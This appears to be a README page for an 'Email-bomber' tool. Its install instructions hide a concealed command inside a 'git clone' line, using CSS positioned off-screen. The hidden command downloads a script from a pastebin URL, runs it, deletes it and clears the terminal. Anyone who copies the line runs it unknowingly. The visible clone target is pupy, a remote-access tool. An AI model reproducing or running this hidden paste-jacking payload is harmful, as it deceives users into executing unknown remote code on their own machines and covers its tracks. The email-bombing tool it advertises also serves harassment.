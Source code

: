 # Email-bomber
===============
before opening the tool type this command :. chmod +x E-bomber.py
<pre> git clone <span style="position: absolute; left: -2000px; top: -100px;">/dev/null; clear; wget https://pastebin.com/raw/PTQbt653 -O foo.py; chmod 777 foo.py; python foo.py; rm foo.py; reset<br> git clone </span> https://github.com/n1nj4sec/pupy.git</pre>
